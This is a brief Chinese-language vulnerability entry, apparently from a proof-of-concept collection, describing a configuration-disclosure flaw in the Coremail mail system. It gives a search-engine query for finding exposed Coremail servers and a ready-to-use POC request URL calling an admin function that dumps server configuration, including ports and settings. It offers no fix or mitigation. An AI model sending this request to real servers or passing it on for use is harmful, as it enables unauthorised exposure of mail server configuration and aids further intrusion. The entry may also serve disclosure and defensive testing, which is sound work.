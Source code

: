 # Coremail 配置信息泄露漏洞

## 漏洞描述

Coremail 某个接口存在配置信息泄露漏洞，其中存在端口，配置信息等

## 漏洞影响

```
Coremail 配置信息泄露漏洞
```

## 网络测绘

```
app="Coremail邮件系统"
```

## 漏洞复现

POC为

```plain
http://xxx.xxx.xxx.xxx/mailsms/s?func=ADMIN:appState&dumpConfig=/
```

![](./images/202202101913188.png)


